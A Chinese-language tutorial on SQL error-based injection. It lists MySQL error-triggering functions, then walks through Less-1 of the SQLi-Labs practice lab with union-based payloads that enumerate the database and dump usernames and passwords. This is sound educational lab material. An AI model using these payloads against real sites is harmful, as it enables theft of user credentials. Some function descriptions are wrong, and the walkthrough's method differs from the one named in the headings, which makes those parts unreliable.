## 一、SQL报错注入概述

1. SQL报错注入是指通过构造特定的SQL语句，让攻击者想要查询的信息（如数据库名、版本号、用户名等）通过页面的错误提示回显出来。
2. 报错注入主要利用执行的报错返回的信息来进行注入从而获得需要的信息。报错注入有许多的函数可以使用，例如floor(rand()*2)、updatexml、extractvalue等。

## 二、SQL报错注入常用的函数方法

1. SQL报错注入常用函数有以下几种： 
   - `floor(rand()*2)`：利用floor函数和rand函数产生主键重复的错误
   - `extractvalue(1,concat(0x7e, (select user()),0x7e))`：利用extractvalue函数和concat函数产生XPath语法错误
   - `updatexml(1,concat(0x7e, (select user()),0x7e),0)`：利用updatexml函数和concat函数产生XPath语法错误
   - `exp(~(select * from (select user())a))`：利用exp函数和取反运算符产生数学运算错误
   - `count(1,concat(0x7e, (select user()),0x7e))`：利用count函数和concat函数产生参数个数错误
   - `ascii(substr((select user()),1,1))=97`：利用ascii函数和substr函数产生布尔值错误

## 三、SQL注入靶场SQLi-Labs示例

1. SQLi-Labs是学习SQL注入的最经典的靶场，靶场源码地址[SQLi-Labs](https://github.com/Audi-1/sqli-labs)，搭建方法很简单，实在不会的话网上搜索一下即可
2. 建议结合浏览器插件HackBar进行手工注入练习

### Less-1

1.  打开Less 1的地址http://IP:PORT/Less-1，界面如下

2.  输入参数id=1'，测试单引号，页面出现报错，报错显示数据库为MySQL

3.  再加上and 1=1 --+和and 1=2 --+，发现页面回显不一样，确定存在SQL注入 



4.  先获取数据库字段数，参数值中加入order by命令，测试字段个数，直到页面回显报错出现unknown column 
```sql
?id=1' order by 3 --+
```





5.  成功获取到数据库字段数为3，然后再测试回显字段。当id为1时，数据库查询的是数据库中id=1的这一条数据，上面获取到的数据库中字段数为3，但可能并不是每一个字段都能够回显数据，所以我们需要把id改成一个不存在的值让数据库报错，从而获取到回显数据的字段，如下，成功获取回显字段2和3，接下来就通过字段2或者3来进行注入 
```sql
?id=-1' union select 1,2,3 --+
```



6.  获取当前数据库名、版本、用户信息 
```sql
?id=-1' union select 1,user(),group_concat(database(),0x3a,version()) --+
```



7.  如上所示，数据库名为security，版本为MySQL5.5.44，用户名为root。然后获取数据库security中的表名 
```sql
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```



8.  如上所示，数据库security中有四个表，一般最重要的是存储了用户数据的users表，先获取user表的字段 
```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```

 

9.  如上，users表中存在三个字段：id、username、password，获取表中数据 
```sql
?id=-1' union select 1,2,group_concat(username,0x3a,password) from users --+
```



10.  成功获取到表的数据 
